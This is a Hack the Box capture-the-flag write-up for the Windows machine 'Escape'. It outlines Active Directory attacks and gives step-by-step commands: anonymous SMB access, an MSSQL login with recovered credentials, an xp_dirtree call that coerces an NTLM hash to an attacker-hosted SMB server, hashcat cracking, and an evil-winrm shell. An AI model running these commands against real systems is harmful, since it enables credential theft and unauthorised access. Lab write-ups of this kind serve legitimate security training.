 # Escape

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="908" height="1119" alt="image" src="https://github.com/user-attachments/assets/1123e9e1-11b9-4908-923e-6f39559bae3a" />

2. Our goal is to first get user credentials, preferrably a domain user, to get an initial foothold into the network. The 2 most common attack vectors to achieve that are web servers and SMB. Since there is no open web server, we try anonymously logging into SMB, which shows there is a Public share we can access. We retrieve the SQL pdf from there

`smbclient -N //sequel.htb/Public`

<img width="698" height="390" alt="image" src="https://github.com/user-attachments/assets/a967fe42-4bad-4075-a554-0b4fd55ac9e4" />

3. Opening the PDF file gives us credentials to the PublicUser user.

<img width="847" height="141" alt="image" src="https://github.com/user-attachments/assets/f632ce76-0aee-48b8-a59a-2b8244128409" />

4. Login as PublicUser to the SQL Server

`impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb`

<img width="659" height="203" alt="image" src="https://github.com/user-attachments/assets/9bbc5213-0302-46b6-88a5-64fa603598cd" />

5. Enumerating the databases yields no data so we try command execution via the xp_cmdshell stored procedure. This is blocked as well; however, the xp_dirtree is executable as Guest user. We use xp_dirtree to connect to our SMB server hosted on our attacker machine to see if we can get a user hash. This works beautifully!

Start local SMB server using impacket
`impacket-smbserver -smb2support share ~/htb/escape/recon/share`

Connect to our SMB server using xp_dirtree
`exec xp_dirtree '\\10.10.15.30\share',1,1;`

<img width="911" height="330" alt="image" src="https://github.com/user-attachments/assets/5885e520-85e1-4d3d-8441-3ec04d40ccc3" />

6. Crack hash offline using hashcat and we get sql_svc's plaintext password!

`hashcat -m 5600 sql_svc.hash /usr/share/wordlists/rockyou.txt`

7. Turns out, sql_svc has PSRemote privileges to the DC. So, we can evil-winrm into the machine.

`evil-winrm -i 10.129.228.253 -u sql_svc -p $(cat sql_svc.pass)`

<img width="909" height="84" alt="image" src="https://github.com/user-attachments/assets/dc6baf01-6dd2-4cdd-85a2-21be1177a183" />



